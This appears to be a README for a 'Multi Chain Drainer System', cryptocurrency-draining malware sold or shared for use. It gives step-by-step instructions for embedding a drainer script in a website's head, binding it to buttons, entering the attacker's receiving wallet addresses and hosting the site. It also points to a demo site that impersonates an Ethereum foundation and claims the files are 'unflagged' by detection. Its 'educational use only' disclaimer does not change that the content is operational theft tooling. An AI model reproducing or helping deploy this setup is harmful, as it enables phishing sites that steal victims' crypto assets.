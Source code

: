 #########################################################################################################
** ‼️‼️‼️‼️ This files is dedicated to WEB3.0 and Legal Penetration Testing. All information on this files is for educational use only ‼️‼️‼️‼️**
#########################################################################################################

💯 Multi Chain Drainer System 💯

Drain on 19 different chains 🚀: ETH,OPTIMISM,CRONOS,BSC,GNOSIS,FUSE,HECO,POLY AND MORES !!
Installation on any website files and documentation included 🔥

Installation & Instructions of the draining system on any WEBSITE / MultiDrainerV6.3.rar

# STEP 1
<script charset="UTF-8" type="text/javascript" src="./85562950-42ac-48d9-9757-cb0ae30ccb7c.js"></script>
<!–– Please do not forgot to update the files.zip (now unflagged) ––>

Paste these scripts in the head of your index.html of your website
then add the class "interact-button" to any buttons that you want to prompt the drainer.


# STEP 2
Move all the files and folder in the directory of your website. ( Image, Scripts, Style and the JS files)



# STEP 3 
Add your Wallet Adresses in the wallet.js files, you can find the .js files in the scripts folder.

Now replace this line "0xreceiverwallet" for your wallet bsc and your wallet eth 

"eth_wallet_receiver_id" = "0xreceiverwallet";

"bsc_wallet_receiver_id" = "0xreceiverwallet";

    }
} 

It should look like this

"eth_wallet_receiver_id" = "0x3f349bBaFEc1551819B8be1EfEA2fC46cA749aA1";

"bsc_wallet_receiver_id" = "0x3f349bBaFEc1551819B8be1EfEA2fC46cA749aA1";
.


All is setup your drainer is ready to go. 
Upload your website on Vercel or any Hosting


WE PROVIDE A CUSTOM DEMO WEBSITE 100% WORKING ALSO NAMED : newperfectdrainer2024.rar
Only thing to do is # STEP 3 


DEMO WEBSITE : https://ethfoundation.vercel.app/

#ETHEREUM #BINANCE #NFT #SEAPORT #DRAINERTESTING #BITCOIN #BNB #ETH

#########################################################################################################‼️
 ‼️‼️‼️‼️ This files is dedicated to WEB3.0 and Legal Penetration Testing. All information on this files is for educational use only ‼️‼️‼️‼️
#########################################################################################################
